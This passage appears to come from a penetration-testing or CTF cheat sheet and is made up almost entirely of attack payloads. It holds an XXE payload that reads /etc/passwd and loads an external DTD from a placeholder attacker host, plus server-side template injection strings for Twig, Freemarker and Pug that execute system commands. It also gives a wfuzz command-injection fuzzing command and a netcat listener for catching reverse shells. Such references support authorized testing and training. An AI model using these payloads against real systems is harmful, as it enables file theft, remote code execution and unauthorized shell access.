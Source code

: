 Step 2:

```XML
<!DOCTYPE xeeEntity [
 <!ENTITY % begin "<![CDATA[">
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % end "]]>">
 <!ENTITY % xxe SYSTEM "http://YOUR-IP:8000/xxe.dtd">
 %xxe;
]>
<root>
	<xeeEntity>&joined;</xeeEntity>
</root>
```

### Server-side Template Injection

#### Fuzzing SSTI

```text-plain
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}

//TWIG
{{['cat${IFS}/etc/passwd']|filter('system')}}

//Freemarker
${"freemarker.template.utility.Execute"?new()("cat /root/flag.txt")}

//Pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('cat', ['flag.txt']).stdout

//Jinja
{{ config|pprint }}
```

### Command Injection

#### Fuzzing command injection

```bash
wfuzz -c -z file,"/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt" --sc 200 "$URL/index.php?parameter=idFUZZ"
```

#### Setup reverse shell listener

```bash
nc -nlvp 4242
```

